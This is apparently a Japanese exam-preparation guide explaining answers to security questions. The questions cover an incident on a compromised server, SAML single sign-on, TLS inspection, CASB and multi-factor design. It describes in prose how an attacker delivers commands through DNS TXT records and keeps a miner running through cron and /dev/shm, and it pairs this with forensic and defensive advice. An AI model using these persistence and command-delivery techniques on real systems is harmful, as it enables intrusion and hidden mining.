| データ長                          | **固定 4バイト**                                                                                                       | 1つの character-string は**最大255オクテット**。複数連結でき、RDATA全体では最大65535オクテット（実際にはUDP 512／EDNS0／TCPの制約を受ける） |
| **任意の文字列を置けるか**        | **✕ 置けない**。形式がアドレスに固定されている                                                                         | **〇 置ける**。内容に仕様上の制約がない                                                                                                     |
| 設定例                            | `www.example.jp. IN A 192.0.2.1`                                                                                       | `example.jp. IN TXT "v=spf1 include:_spf.example.net ~all"`                                                                                 |
| 代表的な正規用途                  | Webサーバ・メールサーバなどの名前解決                                                                                  | **SPF／DKIM（公開鍵）／DMARC**、ドメイン所有権確認、各種メタ情報                                                                            |
| **図2のようなコマンドを運べるか** | **✕** 4オクテットの数値しか持てず、`wget …` のような文字列を表現できない。取得できても文字数が足りずコマンドにならない | **〇** シェルコマンドをそのまま格納でき、応答内容を**そのまま実行**させられる                                                               |

A レコードは「アドレスを入れる箱」として形が決まっているため、いくら工夫してもコマンド文字列は入らない。対して TXT レコードは、もともと**「任意のテキストを置くための型」として設計されている**——だから悪用できてしまう。設問の「DNSプロトコルの仕様を踏まえて」は、この**RDATAの形式の違い**を指している。

**他のレコード型はどうか**

| レコード型                | RDATA の形式                                                                          | 任意のコマンド文字列を運べるか                                                                  |
| ------------------------- | ------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------- |
| **A**                     | IPv4アドレス（32ビット）                                                              | ✕ 形式が固定                                                                                    |
| **AAAA**                  | IPv6アドレス（128ビット）                                                             | ✕ 形式が固定                                                                                    |
| **CNAME / NS / MX / PTR** | **ドメイン名**（ラベルは最大63オクテット、全体255オクテット、通常は英数字とハイフン） | ✕ 文字種・長さ・構文に制約があり、シェルコマンドは表現できない                                  |
| **TXT**                   | character-string の列（各最大255オクテット）                                          | **〇 制約がない**                                                                               |
| **NULL**（TYPE 10）       | 任意のバイト列（最大65535オクテット）                                                 | 〇（ただし実験的な型で通常は使われず、かえって目立つ。DNSトンネリングのツールでは利用例がある） |

つまり、**「任意のバイト列／文字列を入れられる型」はDNSの中でも例外的**で、その代表が TXT レコードだということ。

> **補足**：SPF はかつて専用の SPF レコード（TYPE 99）が定義されていたが、普及しなかったため RFC 7208 で廃止され、**TXTレコードに一本化**された。TXTが「何でも置ける汎用の箱」として使われ続けている背景でもある。

**+α**
- TXTレコードの正規用途：**SPF**、**DKIM**（公開鍵）、**DMARC**、各種サービスの**ドメイン所有権確認**。任意文字列が置けるからこその用途であり、だからこそ悪用もされる。
- **なぜ攻撃者がDNSを選ぶのか**
  - DNS（53）は**ほぼどの環境でも外向きに通っている**。FWでHTTPを絞っていても抜けやすい
  - 配信する内容を**攻撃者側でいつでも差し替えられる**（C&Cの指令チャネルになる）
  - 平文HTTPと違い、**プロキシのURLフィルタやログに残りにくい**
  - 発展形が**DNSトンネリング**（クエリ名にデータを載せて双方向通信する）
- **この手口の他の悪質な点**
  - `/dev/shm` は **tmpfs（メモリ上）**。再起動で消えるためディスクに痕跡が残りにくく、フォレンジックを妨げる
  - `nohup … & disown` で親プロセスから切り離し、セッション終了後も残す
  - **cron で機器の起動時に毎回再取得**するので、プロセスを消しても再感染する＝**永続化（パーシステンス）**
- **対策の方向**
  - 内部サーバから**外部DNSへの直接問い合わせを禁止**し、社内DNSキャッシュサーバ経由に限定。その上で**DNSクエリのログを監視**（見慣れないドメインへのTXTクエリは強い兆候）
  - cron／systemd タイマなど**自動実行設定の改ざん検知**（ファイル完全性監視）
  - `/dev/shm`・`/tmp` を **noexec** でマウントし、書込み可能領域からの実行を封じる

---

### 設問3(2)　下線④　ダウンロードしたファイルが解析対象として不適切な理由（30字以内）

> **(2)** 本文中の下線④について、適切ではない理由を、30字以内で答えよ。
>
> 　（下線④：**ダウンロードしたファイルは解析対象として適切ではない**）

**解答**：**稼働しているファイルと内容が異なる可能性があるから**

**解説**
Mさんがやろうとしたのは「Webブラウザで図2のURL（`https://a0.b0.c0.d0/logd`）から `logd` のファイルをダウンロードし、解析を依頼する」こと。しかし**そのURLは攻撃者が管理しているサーバ**である。したがって、

- 攻撃者が**すでに別のファイルに差し替えている**かもしれない
- アクセス元IPやUser-Agentによって**配布する中身を変えている**かもしれない
- 既に**削除されている**かもしれない

つまり、いま落としたファイルが、**受付サーバ上で実際に稼働していた検体と同一である保証がない**。解析すべきは「今そこで動いていたもの」そのもの。

**検体をどこから取得するか**



**+α：証拠保全（デジタルフォレンジックス）の原則**
- **一次証拠は被害機器そのものから取得する**。これが設問3(3)の答えに直結する。
- 取得時に**ハッシュ値を算出して記録**し、同一性を担保する。書込み防止（ライトブロッカー）や読取り専用マウントで原本を変更しない。取扱いの経緯（**チェーン・オブ・カストディ**）を残す。
- 揮発性の高い順に採取する（**メモリ → ネットワーク接続・プロセス → ディスク**）。本問で `ps` と `netstat` を先に実行しているのは、この順序に沿った正しい動き。逆に「証拠保全の前に電源を落とす」とメモリ上の証拠が失われる。
- 実務上の追加理由として、**攻撃者のサーバへアクセスすること自体が、調査していることを攻撃者に知らせる**（こちらの調査元IPが渡る）というリスクもある。解答例は「内容が異なる可能性」を採っているが、覚えておいて損はない。

---

### 設問3(3)　空欄f（解析対象ファイルの取得元）

> **(3)** 本文中の **f** に入れる適切なサーバ名を、10字以内で答えよ。
>
> 　（本文：Mさんは、調査対象とする logd のファイルを **f** から取得して、マルウェア対策ソフトベンダーに解析を依頼した。）

**解答**：**受付サーバ**

**解説**
設問3(2)の裏返し。実際に `logd` のプロセスが稼働していたのは**受付サーバ**なので、そこにあるファイルの実体を取得して解析に回す。

なお、この時点で受付サーバは既に**ネットワークから切断**されている（U課長の指示）。切断済みだからこそ、検体が追加で改変される心配なく保全できる、という流れも押さえておきたい。

解析の結果、`logd` は**暗号資産マイニング（クリプトジャッキング）の実行プログラム**と判明した。

---

#### 補足：なぜ「ハッシュ値を調べる」のか <!-- omit in toc -->

問2では2か所でハッシュ値の調査が出てくる。**検体（ファイル）を一意に特定して、既知の情報と突き合わせる**のが目的で、インシデント対応の初動の定石である。

| 箇所                                 | 対象   | 結果                               | そこから導かれた判断                                                                                                                                                                                        |
| ------------------------------------ | ------ | ---------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 〔プロセスとネットワーク接続の調査〕 | `srv`  | ハッシュ値が**既知**だった         | インターネット上で公開されている**攻撃ツール**と特定。ツールの仕様（バインド／コネクト、ポートスキャン、辞書攻撃、SNMPv2c、結果ファイルのアップロード）が分かり、**解析を待たずに攻撃者の行動を推定**できた |
| 〔受付サーバの設定変更の調査〕       | `logd` | ハッシュ値の**情報が見つからない** | 既知のマルウェアではない＝公開情報から挙動が分からない → **マルウェア対策ソフトベンダーへの解析依頼が必要**と判断                                                                                           |

**なぜハッシュ値なのか**

ハッシュ関数は任意長のデータから固定長の値を生成する一方向性の関数で、**同じ内容なら必ず同じ値、1ビットでも違えば全く異なる値**になる（雪崩効果）。つまりハッシュ値は**ファイルの指紋**として機能する。

- **ファイル名・サイズ・更新日時は攻撃者が自由に詐称できる**。実際 `srv`（service）や `logd`（Linuxの正規デーモンに紛れる名前）は、いかにも正規のプロセスらしく偽装されている
- ハッシュ値は**中身そのものから計算される**ので偽装できない

**具体的な手順（Linuxサーバでの実務）**

```bash
# 1. 検体のハッシュ値を算出する（検体の同定には SHA-256 を使う）
$ sha256sum /path/to/srv
9f2b8c1e0a4d...（64桁の16進数）  /path/to/srv

# 2. 実行中プロセスから実体を辿る（ファイル名は当てにならない）
$ ls -l /proc/1293/exe        # → 実際に実行されているファイルのパス
$ sha256sum /proc/1293/exe    # 削除済みでも /proc 経由で取得できる
```

算出した値を、次のような**既知の情報源**に照会する。

- マルウェア対策ソフトベンダーの脅威データベース
- VirusTotal などのマルチスキャンサービス（**ハッシュ値での検索**）
- JPCERT/CC・IPA の注意喚起や、セキュリティベンダーの分析レポートに載っている指標

これはまさに **IoC（Indicator of Compromise：侵害指標）** の突き合わせそのもの。IoCの代表例として「**悪意のあるファイルのハッシュ値**」「不正な通信先のIPアドレス」「不審なドメイン名」が挙げられる。

**ハッシュ値が一致すると何が得られるか**

1. **そのファイルが何者かが即座に分かる**（既知ツールか、既知マルウェアか、正規ファイルか）
2. **攻撃者に何ができたかが分かる** — 本問では `srv` の仕様が判明したことで、表1〜表3のログを「バインドで失敗→コネクトで成功→子プロセスでスキャン」と読み解けた（設問2）
3. **被害範囲を見積もれる** — `srv` はSSH／FTPへの辞書攻撃の結果を結果ファイルに記録しC&Cへアップロードするので、**認証情報が漏れたおそれ**まで判断できる
4. **横展開の調査ができる** — 同じハッシュ値のファイルが他のサーバにないかを一斉に検索して、侵害範囲を洗い出せる

**もう一つの用途：証拠保全**

デジタルフォレンジックスでは、検体を取得した時点でハッシュ値を算出して記録し、**その後の解析で改変されていないこと（完全性）を証明**する。チェーン・オブ・カストディの一部であり、設問3(2)(3) の「どこから検体を取るか」と表裏の関係にある。

**限界と注意点**

- ハッシュは**1バイト変わるだけで全く別の値**になる。攻撃者がビルドし直したりパディングを足したりすれば既知ハッシュと一致しない —— **`logd` が「情報が見つからない」のはまさにこれ**。新種とは限らず、既知マルウェアの再ビルドという可能性も高い
- そのため実務では**ファジーハッシュ（ssdeep）や imphash、TLSH** など「似ていること」を測る手法や、サンドボックス・EDRによる**振る舞い検知**と併用する
- 検体の同定に **MD5／SHA-1 は使わない**（衝突攻撃が現実的なため）。SHA-256 を用いる
- 外部サービスへの照会にも配慮が要る。**ハッシュ値の検索だけなら検体は渡らない**が、ファイルそのものをアップロードすると第三者の目に触れ得る。また標的型攻撃では、攻撃者が自分の検体のハッシュが照会されたかを監視していて、**調査に気付かれる**こともある

---

### 問2の学習ポイントまとめ

| 論点               | 押さえる要点                                                                                                                              |
| ------------------ | ----------------------------------------------------------------------------------------------------------------------------------------- |
| FTPのモード        | **パッシブ＝データも同じ向き**／アクティブ＝逆向き。ログ上の行の向きで判別し、**データコネクションの有無＝ファイル転送の有無**を証明する  |
| SNMP               | v1/v2c の**コミュニティ名**は平文のパスワード代わり。既定値 `public` は偵察の起点。v3 かアクセス元制限                                    |
| バインド／コネクト | **バインドシェルはインバウンド規制で防げるが、リバースシェルは防げない**。アウトバウンドの443を野放しにしない（プロキシ＋FQDN許可リスト） |
| ログの突き合わせ   | 表をまたいで **PID・ポート番号・時刻**で同一通信を特定する。**PPIDの連鎖**が侵入経路を示す                                                |
| プロセス調査       | 正規プロセスと不審プロセスは**開始日時**で切り分ける。実行利用者IDで被害範囲を見積もる                                                    |
| DNSの悪用          | **TXTレコードは任意文字列を置ける**ためC&C／ダウンローダの指令に使える。cron＋`/dev/shm` で永続化・痕跡隠し                               |
| フォレンジックス   | 検体は**攻撃者のサーバからではなく被害機器から**取得。ハッシュ値で同一性担保、揮発性の高い順に採取                                        |

---

<div style="page-break-before:always"></div>
い
## 問3 クラウドサービス利用（Q社）

### 題材の整理

| 項目         | 内容                                                                                                                                                           |
| ------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 企業         | Q社：従業員1,000名の製造業。工場がある**本社**＋複数の**営業所**                                                                                               |
| 部門         | 営業部、**研究開発部**、製造部、総務部、情報システム部（K部長、S主任を含む6名で運用）                                                                          |
| 端末         | PCとスマートフォンを貸与。**PCの社外持出しは禁止**。インターネットアクセスは本社の**プロキシサーバ**経由                                                       |
| 利用サービス | SaaS-a（**外部ストレージ**／`https://△△△-a.jp/`／**研究開発部だけ**が使用）、SaaS-b（営業支援）、SaaS-c（経営支援）、SaaS-d（Web会議）、**Lサービス（IDaaS）** |
| 認証         | LサービスがSAMLで各SaaSと連携。**送信元制限機能＝有効**（本社UTMのグローバルIPのみ許可、それ以外は拒否）／**多要素認証機能＝無効**                             |
| きっかけ     | 全従業員を対象に**在宅勤務**を導入。R-PC（リモート接続用PC）を貸与                                                                                             |

**出題趣旨**：クラウドサービスの導入を題材に、**与えられた要件に基づいてネットワーク構成及びセキュリティを設計する能力**を問う。

---

### 設問1(1)　図2 空欄a〜c（SAML認証の登場人物）

> **設問1**　〔Lサービスの動作確認〕について答えよ。
> **(1)** 図2中の **a** 〜 **c** に入れる適切な字句を、解答群の中から選び、記号で答えよ。
>
> 　解答群　　ア　Lサービス　　イ　PCのWebブラウザ　　ウ　SaaS-a

**解答**：a＝**ア（Lサービス）**／b＝**イ（PCのWebブラウザ）**／c＝**ウ（SaaS-a）**

**図2の流れ（SP-Initiated SSO）**

| #   | 向き  | メッセージ                   | 意味                                           |
| --- | ----- | ---------------------------- | ---------------------------------------------- |
| (1) | b → c | サービス要求                 | ブラウザが**SaaS-a**にアクセス                 |
| (2) | c → b | 認証要求（リダイレクト指示） | SPが**SAMLRequest**を持たせてIdPへリダイレクト |
| (3) | b → a | 認証要求                     | ブラウザが**Lサービス**に到達                  |
| (4) | a ↔ b | 利用者の認証                 | ID・パスワードで認証                           |
| (5) | a → b | 認証応答（リダイレクト指示） | **SAML Assertion**を持たせてSPへリダイレクト   |
| (6) | b → c | 認証応答                     | ブラウザがAssertionをSaaS-aへPOST              |
| (7) | c → b | サービス応答                 | 署名・Audience・有効期限を検証してログイン成立 |

**SAML SP-Initiated の流れ**



**解き方の決め手**
**すべての矢印が b を経由している**（a と c の間に直接の矢印がない）ことに気付けば、b＝**ブラウザ**が一瞬で決まる。SAMLのHTTP Redirect/POST バインディングでは、IdPとSPは直接通信せず、**ブラウザを介してメッセージを受け渡す**のが特徴。
残りは「(1)でサービスを要求される側＝SP＝SaaS-a」「(4)で利用者を認証する側＝IdP＝Lサービス」で確定する。

**+α**
- **SP-Initiated**（SPに先にアクセス → IdPへ飛ぶ）と **IdP-Initiated**（IdPのポータルから起動）の違い。
- 検証項目は**XML署名／Audience（宛先）／有効期限・発行時刻／Assertion ID の再利用チェック**。これを怠ると Assertion 流用やリプレイを許す。
- 「パスワードそのものはSPに渡らない」「異なるドメイン間でSSOできる」がSAMLの利点。

---

### 設問1(2)　下線①の理由（40字以内）

> **(2)** 本文中の下線①について、利用できない理由を、40字以内で具体的に答えよ。
>
> 　（下線①：**攻撃者がその利用者IDとパスワードを使って社外からLサービスを利用することはできない**）

**解答**：**送信元制限機能で、本社のUTMからのアクセスだけを許可しているから**

**解説**
下線①は「フィッシングでLサービスの利用者IDとパスワードを入力してしまう従業員がいたとしても、**攻撃者がその利用者IDとパスワードを使って社外からLサービスを利用することはできない**」。

根拠は表1の**送信元制限機能**とその注記。

> 契約した顧客が設定したIPアドレスからのアクセスだけを許可する。……
> 注2：**本社のUTMのグローバルIPアドレス**を送信元IPアドレスとして設定している。設定しているIPアドレス以外からのアクセスは**拒否する**設定にしている。

Q社のPCはプロキシサーバ→UTMを経てインターネットに出るので、Lサービスから見た送信元は常に本社UTMのグローバルIP。攻撃者は当然それ以外のIPからアクセスするため、**認証情報が正しくても接続段階で拒否される**。

**送信元制限機能が効く仕組み**



**+α**：これは**IPアドレス制限がフィッシング被害の緩和策として効く**という実務的な論点。ただし限界もある。
- 従業員の端末が**マルウェアに感染して社内から操作される**（正規IP経由）場合は無力
- 在宅勤務のように**送信元IPが固定できない**働き方が入ると成立しなくなる ── まさにこの後の〔在宅勤務導入における課題〕につながる伏線

---

### 設問2(1)　表3 空欄d〜f（TLS復号のための証明書）

> **設問2**　〔在宅勤務導入における課題〕について答えよ。
> **(1)** 表3中の **d** 〜 **f** に入れる適切な字句を、解答群の中から選び、記号で答えよ。
>
> 　解答群　　ア　Pサービスのサーバ証明書　　イ　信頼されたルート証明書　　ウ　認証局の証明書

**解答**：d＝**ア（Pサービスのサーバ証明書）**／e＝**ウ（認証局の証明書）**／f＝**イ（信頼されたルート証明書）**

**完成した文**
> 送信元からのTLS通信を終端し、復号してマルウェアスキャンを行う。……これを実現するために、**Pサービスのサーバ証明書**を発行する**認証局の証明書**を、**信頼されたルート証明書**として、PCにインストールする。

**解説**
TLSはエンドツーエンドで暗号化されるため、途中で中身を検査するには**意図的な中間者（MITM）を挟む**しかない。Pサービスは次のように振る舞う。



このなりすまし証明書は公的CAが発行したものではないため、**そのままではブラウザが警告を出す**。そこで、なりすまし証明書を発行しているPサービスの**プライベート認証局のルート証明書をPCの信頼ストアに登録**しておく。これでPCは検証に成功し、警告なしに復号検査ができる。

**語順で解く**：「**X を発行する Y を、Z として、PCにインストールする**」という文型なので、
- X＝発行される側の証明書＝**サーバ証明書**
- Y＝発行する側＝**認証局の証明書**
- Z＝インストール時の扱い＝**信頼されたルート証明書**
という対応が機械的に決まる。

**+α**
- この仕組みは **SSLインスペクション／TLSインスペクション**と呼ばれ、SWG・次世代FW・UTMで一般的。
- 副作用も頻出論点：**証明書ピンニング**を行うアプリは通らない、**エンドツーエンドの秘匿性が失われる**（健康・金融サイトは復号対象から除外する運用が普通）、**復号装置が単一障害点かつ攻撃対象**になる。
- なお令和5年秋期 問3では、逆に攻撃者が **SNIを偽装（ドメインフロンティング）**して検査をすり抜ける手口が出題されている。セットで押さえたい。

---

### 設問2(2)　表3 空欄g（通信可視化機能の分類）

> **(2)** 表3中の **g** に入れる適切な字句を、解答群の中から選び、記号で答えよ。
>
> 　解答群　　ア　CAPTCHA　　イ　CASB　　ウ　CHAP　　エ　CVSS　　オ　クラウドWAF

**解答**：**イ（CASB）**

**解説**
表3項番5は「中継する通信のログを基に、**クラウドサービスの利用状況の可視化**を行う」。**CASB（Cloud Access Security Broker）**は、利用者とクラウドサービスの間にコントロールポイントを置き、次の4つを提供する仕組み。

| CASBの4機能        | 内容                                                                             |
| ------------------ | -------------------------------------------------------------------------------- |
| **可視化**         | 誰がどの端末でどのクラウドを使っているか把握（**シャドーIT／シャドーAIの発見**） |
| コンプライアンス   | 自社基準を満たさないサービスの利用制限                                           |
| データセキュリティ | 機密データのアップロード検知・制御（DLP）                                        |
| 脅威防御           | 不審な利用の検知                                                                 |

**他の選択肢の消し方**

| 選択肢         | 内容                                            | 判定                                                                                |
| -------------- | ----------------------------------------------- | ----------------------------------------------------------------------------------- |
| ア CAPTCHA     | 人間かボットかの判別                            | 可視化と無関係                                                                      |
| ウ CHAP        | チャレンジレスポンス型の認証プロトコル（PPP等） | 認証の話                                                                            |
| エ CVSS        | 脆弱性の深刻度評価システム                      | 脆弱性管理の話                                                                      |
| オ クラウドWAF | Webアプリへの攻撃を検知・遮断                   | **守る対象がWebアプリ（受け側）**であり、自社からのクラウド利用状況の可視化ではない |

**+α**：CASBの導入方式は**インライン型（プロキシ）／API型／ログ分析型**の3つ。本問のPサービスは通信を中継するので**インライン型**。リアルタイム制御ができる反面、通信経路や端末設定の変更が必要という特徴が、ちょうど表3項番2（エージェント／証明書のインストール）と符合する。

---

### 設問3(1)　下線②　営業所のアクセス方法の違い（30字以内）

> **設問3**　〔ネットワーク構成の見直し〕について答えよ。
> **(1)** 表4中の下線②について、見直し前と見直し後のアクセス方法の違いを、30字以内で答えよ。
>
> 　（下線②：**営業所からインターネットへのアクセス方法を見直す**）

**解答**：**プロキシサーバではなく、Pサービスを経由させる。**

**解説**
見直し**前**の営業所からのインターネットアクセスは、こうなっている。

```
営業所PC → 営業所UTM →(拠点間IPsec VPN)→ 本社UTM → 本社プロキシサーバ → インターネット
```

表1注4「本社のUTMと各営業所のUTMとの間でVPN通信する設定」＋「PCのWebブラウザからインターネットへのアクセスは、本社のプロキシサーバを経由する」から、営業所の通信は**いったん本社に集約されてから外に出る**（バックホール構成）と読める。ここに在宅勤務のR-PCの通信まで乗ってくると、**要件1「本社のインターネット回線をひっ迫させない」**を満たせない。

見直し**後**は、

```
営業所PC → 営業所UTM → インターネット → Pサービス → 各クラウドサービス
```

と、**本社を経由せず営業所から直接Pサービスへ出す**。図3で本社DMZの**プロキシサーバがPコネクタに置き換わっている**ことも、プロキシ経由をやめた裏付けになる。

**見直し前後の経路**



**+α**：この構成変更は **ローカルブレイクアウト**と呼ばれ、**SASE**（SD-WAN＋SWG／CASB／ZTNA／FWaaS）の中心的な考え方。「本社に全部集めて検査する」モデルは、クラウド利用と在宅勤務の増加で回線・機器がボトルネック化するため、**検査機能をクラウド側（＝Pサービス）に移す**ことで各拠点から最短経路で出せるようにする。

---

### 設問3(2)　下線③　Lサービスに追加する設定（40字以内）

> **(2)** 表4中の下線③について、Lサービスに追加する設定を、40字以内で答えよ。
>
> 　（下線③：**営業所からLサービスにアクセスできるように設定を追加する**）

**解答**：**送信元制限機能で、営業所のUTMのグローバルIPアドレスを設定する。**

**解説**
設問1(2)で見たとおり、Lサービスの送信元制限は**本社UTMのグローバルIPだけ**を許可している。見直し後は営業所のPCが**本社を経由せず営業所UTMから直接出ていく**ので、このままでは営業所の従業員がLサービスにログインできなくなる。

表2要件2に「Lサービスに接続できるPCを、**本社と営業所のPC**及びR-PCに制限する」とあり、営業所からのアクセスは**許可しなければならない**。よって送信元制限機能に**営業所UTMのグローバルIPアドレスを追加**する。

表1の注1「**IPアドレスは、複数設定できる**」が、この解答を可能にする伏線。細かい注記が解答の根拠になる典型例。

---

### 設問3(3)　下線④　選択する多要素認証の方式

> **(3)** 表4中の下線④について、選択する方式を、表1中の（ア）、（イ）から選び、記号で答えよ。
>
> 　（下線④：**方式を選択する**／表1の多要素認証機能：（ア）スマートフォンにSMSでワンタイムパスワードを送り、それを入力させる方式　（イ）TLSクライアント認証を行う方式）

**解答**：**（イ）TLSクライアント認証を行う方式**

**解説**
要件2をもう一度読む。

> Lサービスに接続できる**PC**を、本社と営業所のPC及び**R-PC**に制限する。なお、**従業員宅のネットワークについて、前提を置かない**。

R-PCは従業員の自宅から接続するため、**送信元グローバルIPが不定**（しかも従業員宅のネットワークに前提を置かない＝IPを固定してもらうことも期待しない）。そこで表4のとおり、「Q社が設定したIPアドレス以外からのアクセス」を**拒否**ではなく**多要素認証を動作させる**設定に変更する。その追加認証で**端末を絞り込む**必要がある。

| 方式                           | 縛れるもの                                 | 要件2との適合                                                                                |
| ------------------------------ | ------------------------------------------ | -------------------------------------------------------------------------------------------- |
| （ア）スマートフォンにSMSでOTP | **人**（スマホの所持者）                   | ✕ スマホさえ手元にあれば**どのPCからでも**通ってしまう。「接続できるPCを制限する」にならない |
| （イ）TLSクライアント認証      | **端末**（クライアント証明書を格納したPC） | 〇 証明書を導入したR-PCだけが認証を通る                                                      |

**方式選択の判断フロー**



**+α**：「**所持要素で"人"を縛るのか"端末"を縛るのか**」を区別させる良問。
- 端末を縛りたいなら**クライアント証明書**、または MDM／デバイス準拠ポリシー（Entra ID の条件付きアクセスなど）。
- SMS-OTPは**SIMスワップ**や中継型フィッシングに弱く、NISTも非推奨寄り。フィッシング耐性の観点では **FIDO2／クライアント証明書**が上位。
- クライアント証明書を使う場合は**秘密鍵の保護**が要件になる（令和5年秋期 問2ではTPMに格納して取り出せなくする設計が問われている）。

---

### 設問3(4)　表4 空欄h・i（要件3・要件4に使う機能）

> **(4)** 表4中の **h**、**i** に入れる適切な数字を答えよ。

**解答**：h＝**6**／i＝**2**

**h＝項番6 リモートアクセス機能（要件3）**

> 要件3：R-PCから本社のサーバにアクセスできるようにする。ただし、UTMのファイアウォール機能には、**インターネットからの通信を許可するルールを追加しない**。

